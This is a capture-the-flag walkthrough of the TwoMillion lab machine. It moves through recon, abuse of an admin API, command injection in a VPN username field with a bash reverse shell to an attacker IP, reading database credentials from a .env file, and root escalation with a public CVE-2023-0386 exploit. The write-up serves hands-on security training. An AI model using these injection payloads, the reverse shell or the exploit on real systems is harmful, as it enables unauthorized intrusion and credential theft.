

# TwoMillion

# Recon

## Port Scan

`nmap -sVC -A -T4 -oN nmap 10.10.11.221`

On the bottom of the scan we see this domain

So add it to hosts file

`echo -e "10.10.11.221\t2million.htb" >> /etc/hosts`

## Web

### Directory Discovery

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb/FUZZ -t 10 -fl 8`

We need the Invitation code to Register maybe its on the API

### API Recon

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://2million.htb/api/FUZZ](http://2million.htb/api/FUZZ) -t 10 -fl 8`

**Kite Runner**

`kr scan [http://2million.htb/api/v1](http://2million.htb/api/v1) -w /opt/kiterunner-1.0.2/routes/routes-small.kite -x 10`

Inside this JS file was a obfuscated code about making the invitation code

After deobfuscate the code we found this endpoint

Make a `POST` request to it

Decoding the code

`NFZQMTUtSTJEVEYtRDdERUMtVFVOSVo=`

`4VP15-I2DTF-D7DEC-TUNIZ`

Now register an account and use the decoded invitation code

### Web page

After login we get this page

After messing around with the application i came back to `http://2million.htb/api/v1` as we are logged in we could read the endpoints there

`curl http://2million.htb/api/v1 -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

Some admin endpoints

Just try use the endpoint

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

Found that we can put `json` content type

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" | jq .`

We put our test email address

`curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" -d '{"email":"test@test.com"}'| jq .`

And here we set the flag admin to 1

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" -d '{"[email":"test@test.com](mailto:email%22:%22test@test.com)","is_admin":1}'| jq .`

Now we can use the endpoint we found earlier to check if we are admin

`curl -X GET [http://2million.htb/api/v1/admin/auth](http://2million.htb/api/v1/admin/auth) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

Just make the request to `/api/v1/admin/vpn/generate` , set the content type to application/json and now set the username

We can verify that the server isn’t checking for our user so any input it will validate, maybe its running bash to give us a VPN

By running `$(sleep 3)` as the username the app will take longer to load, it means we got command injection

$(sleep 3)

Open a netcat listener

`nc -lvnp 9999`

Now send a reverse shell

`$(bash -c 'bash -i >& /dev/tcp/10.10.14.15/9999 0>&1')`

And we got the connection

## Privilege escalation

### SQL Credentials

On the Index.php they use envVariables and there was a file named as `.env`

Found the DB credentials

`cat .env`

`admin`

`SuperDuperPass123`

Now just ssh into the admin user

`ssh admin@2million.htb`

**First flag**

Dump the Database

`mysql -u admin -p`

Found 2 admins

After some time found some email

`cat /var/mail/admin`

It seems there is a Kernel exploit `OverlayFS / FUSE`  , i used the exploit from this github [https://github.com/sxlmnwb/CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386)

After downloading the repository send it to the victim machine

Run the command make 

Now open two shells

On the first one run this code

`./fuse ./ovlcap/lower ./gc`

On the second shell run this

`./exp`

